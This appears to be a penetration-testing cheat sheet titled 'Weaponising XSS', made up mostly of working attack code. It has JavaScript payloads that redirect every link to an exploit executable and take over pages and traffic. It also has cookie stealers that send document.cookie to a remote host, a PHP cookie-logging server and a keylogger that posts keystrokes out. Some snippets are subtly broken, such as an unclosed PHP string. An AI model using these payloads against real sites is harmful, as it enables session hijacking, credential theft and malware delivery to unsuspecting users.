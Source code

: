 ```yaml
---
description: 1-up your <script>alert(1)</script> and effectively demonstrate risk
---
```


# Weaponising XSS

## Content substitution

### Replace Link

Replace all links on the page with your link

```javascript
for (var i = 0; i < document.links.length; i++) {
  var a = document.links[i];
  a.href = 'https://domain.com/exploit.exe';
}
```

### Replace HTML element

Replace HTML elements wwith your custom content using Element.innerHTML function. Example below replaces entire body element.

```javascript
document.body.innerHTML = 'New body HTML';
```

### Forward traffic

Simply forward traffic to your own site

```javascript
location.replace("https://domain.com")
Example use in "input" field
onfocus=location.replace("https://domain.com") autofocus=a
```

## Data Exfiltration

### Cookie stealers

#### Simple cookie stealers

document.location cookie stealer

```javascript
<script type="text/javascript">
document.location='https://domain.com/cookiestealer.php?c='+document.cookie;
</script>
```

img src cookie stealer

```javascript
<script type="text/javascript">
<img src=x onerror=this.src='https://domain.com/?c='+document.cookie>
</script>
```

#### PHP Server to cache cookies

```php
<?php
header ('Location: https://redirect-domain.com');
    $cookies = $_GET["c"];
    $file = fopen('cookielog.txt, 'a');
    fwrite($file, $cookies . "\n\n\n");
?>
```

#### Javascript cookie stealer \(could be paired with keylogger below\)

Multiple methods have been included below for exfiltration, choose only one

```javascript
function ajaxRequest (method, url, data, ad) {
  var xmlHttp = new XMLHttpRequest()

  if (xmlHttp.overrideMimeType) {
    xmlHttp.overrideMimeType('text/plain; charset=x-user-defined')
  }

  xmlHttp.open(method, url, true)

  if (ad) {
    xmlHttp.onreadystatechange = function () {
      if (xmlHttp.readyState === 4) {
        ad(xmlHttp)
      }
    }
  }

  xmlHttp.send(data)
  return xmlHttp
}

var CookieExfil = function () {}
var c = document.cookie
//Include one of the three exfil methods below:
//GET request - AJAX
var i = new Image()
ajaxRequest('GET', 'https://domain.com?c=' + encodeURIComponent(c), undefined, CookieExfil)

//GET request DOM
var i = new Image()
i.src = 'https://domain.com?c=' + encodeURIComponent(c)
CookieExfil()

//POST request - AJAX
ajaxRequest('POST', 'https://domain.com', 'cookie=' + encodeURIComponent(c), CookieExfil)

```

### Key logger

Log keystrokes made to attackers remote server

```javascript
function ajaxRequest (method, url, data, ad) {
  var xmlHttp = new XMLHttpRequest()

  if (xmlHttp.overrideMimeType) {
    xmlHttp.overrideMimeType('text/plain; charset=x-user-defined')
  }

  xmlHttp.open(method, url, true)

  if (ad) {
    xmlHttp.onreadystatechange = function () {
      if (xmlHttp.readyState === 4) {
        ad(xmlHttp)
      }
    }
  }

  xmlHttp.send(data)
  return xmlHttp
}

document.addEventListener('keypress', function (e) {
  ajaxRequest('POST', 'https://domain.com/Log', 'key=' + e.key)
})
```

### 





